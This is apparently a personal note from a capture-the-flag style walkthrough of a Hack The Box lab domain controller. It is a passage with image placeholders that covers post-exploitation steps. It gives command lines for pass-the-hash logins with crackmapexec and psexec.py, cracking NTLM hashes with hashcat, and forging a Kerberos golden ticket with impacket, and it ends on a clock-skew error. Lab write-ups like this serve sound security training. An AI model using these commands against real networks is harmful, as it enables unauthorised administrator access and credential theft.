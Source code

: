 Running #crackmapexec using admin's hash

`crackmapexec smb 10.10.10.161 -u administrator -H xfcghggaghdhlakjld`

![[Pasted image 20241212185851.png]]

Use `psexec.py` to gain access

`psexec.py -hashes <LM:NTLM> administrator@10.10.10.161`

It doesn't matter what you put for the LM

![[Pasted image 20241212190219.png]]

Now logged in as administrator.

Bonus:

Cracking #ntlmhashes with #hashcat 

`./hashcat --user -m 1000 hashes.ntlm /opt/wordlist/rockyou.txt -r rules/InsidePro-PasswordsPro.rule`

Hash file is in the form user:hash

Doing #goldenticket attack from Linux using krbtgt hash
![[Pasted image 20241212201936.png]]


Cheatsheet:
https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

![[Pasted image 20241212201852.png]]

Query for domain-sid

`Get-ADDomain htb.local`

![[Pasted image 20241212202205.png]]

Create the ticket with

`python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>`

![[Pasted image 20241212202747.png]]

Set the ticket for impacket use
`export KRB5CCNAME=<TGS_ccache_file>`

![[Pasted image 20241212202937.png]]

Run psexec

`./psexec.py htb.local/TotallyDoesNotExist@10.10.10.161 -k -no-pass`

ensure `10.10.10.161 htb.local` is in `/etc/hosts`

Error because clock skew is too great

